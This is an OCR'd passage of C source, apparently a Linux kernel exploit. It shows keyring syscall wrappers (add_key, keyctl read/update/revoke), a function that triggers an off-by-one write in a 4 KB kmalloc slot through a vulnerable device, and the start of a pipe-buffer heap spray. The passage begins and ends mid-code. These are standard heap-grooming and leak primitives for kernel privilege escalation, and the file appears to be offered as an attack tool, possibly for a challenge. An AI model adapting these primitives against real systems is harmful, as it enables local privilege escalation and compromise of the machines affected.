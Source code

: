 ```c
    fatal("sched_setaffinity");
  }
}

static void get_enter_to_continue(const char *msg) {
  puts(msg);
  getchar();
}
static void fatal(const char *msg) {
  perror(msg);
  // get_enter_to_continue("Press enter to exit...");
  exit(-1);
}

/**
 * type must be "keyring", "user", "logon", or "big_key"
 */
static int32_t sys_add_key(const char *type, const char *desc,
                           const void *payload, size_t plen, int ringid);
static int32_t sys_keyctl(int cmd, ...);
static int32_t sys_revoke_key(int32_t key);
static int32_t sys_update_key(int32_t key, void *payload, size_t size);
static int32_t sys_read_key(int32_t key, char *buf, size_t size);

static int32_t sys_add_key(const char *type, const char *desc,
                           const void *payload, size_t plen, int ringid) {
  return syscall(__NR_add_key, type, desc, payload, plen, ringid);
}
static int32_t sys_keyctl(int cmd, ...) {
  va_list ap;
  long arg2, arg3, arg4, arg5;
  va_start(ap, cmd);
  arg2 = va_arg(ap, long);
  arg3 = va_arg(ap, long);
  arg4 = va_arg(ap, long);
  arg5 = va_arg(ap, long);
  va_end(ap);
  return syscall(__NR_keyctl, cmd, arg2, arg3, arg4, arg5);
}
static int32_t sys_revoke_key(int32_t key) {
  return sys_keyctl(KEYCTL_REVOKE, key);
}
static int32_t sys_read_key(int32_t key, char *buf, size_t size) {
  return sys_keyctl(KEYCTL_READ, key, buf, size);
}
static int32_t sys_update_key(int32_t key, void *payload, size_t size) {
  return sys_keyctl(KEYCTL_UPDATE, key, payload, size);
}

int vuln_fd;
static void off_by_one_in_kmalloc_4k(void);

static void off_by_one_in_kmalloc_4k(void) {
  char buf[0x1000];
  memset(buf, 0, 0x1000);
  write(vuln_fd, buf, 0x1000);
}

#define HEAP_ALLOC_COUNT 1000
int pipe_fds[HEAP_ALLOC_COUNT][2];
int alloc_4k_pipe_at(uint64_t idx) {
  const size_t pipe_size = 0x1000 * 64;
  int *fds = pipe_fds[idx];
```